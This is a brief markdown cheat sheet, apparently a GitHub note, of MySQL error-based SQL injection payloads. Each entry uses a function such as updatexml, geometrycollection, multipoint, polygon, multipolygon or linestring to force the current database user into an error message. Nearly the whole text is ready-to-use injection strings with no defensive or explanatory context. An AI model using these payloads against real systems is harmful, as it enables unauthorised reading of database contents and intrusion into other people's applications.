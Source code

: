 ### updatexml()

`select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));`

![img](image\1016026-20160928205451969-1920882857.png)

### geometrycollection()

`select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));`

![img](image\1016026-20160928205719485-521701933.png)

### multipoint()

`select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));`

![img](image\1016026-20160928205942266-563740245.png)

### polygon()

`select * from test where id=1 and polygon((select * from(select * from(select user())a)b));`

![img](image\1016026-20160928205828281-760176387.png)

### multipolygon()

`select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));`

![img](image\1016026-20160928210038094-1420034123.png)

### linestring()

`select * from test where id=1 and linestring((select * from(select * from(select user())a)b));`
